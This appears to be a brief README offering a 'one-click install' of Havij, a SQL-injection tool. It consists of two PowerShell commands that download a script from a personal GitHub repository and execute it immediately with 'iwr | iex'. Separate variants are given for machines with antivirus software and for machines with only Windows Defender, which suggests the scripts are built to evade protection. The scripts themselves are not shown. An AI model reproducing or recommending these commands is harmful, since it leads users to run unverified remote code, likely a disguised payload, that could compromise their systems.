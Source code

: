## Havij one-click install (PowerShell)

- If you have antivirus software installed, run this command:
```powershell
iwr -useb https://raw.githubusercontent.com/mdromanmoonshi/havij/main/hlazy.ps1 | iex
powershell```

---
- If you only have Windows Defender, run this command:
```powershell
iwr -useb https://raw.githubusercontent.com/mdromanmoonshi/havij/main/onelazy.ps1 | iex```

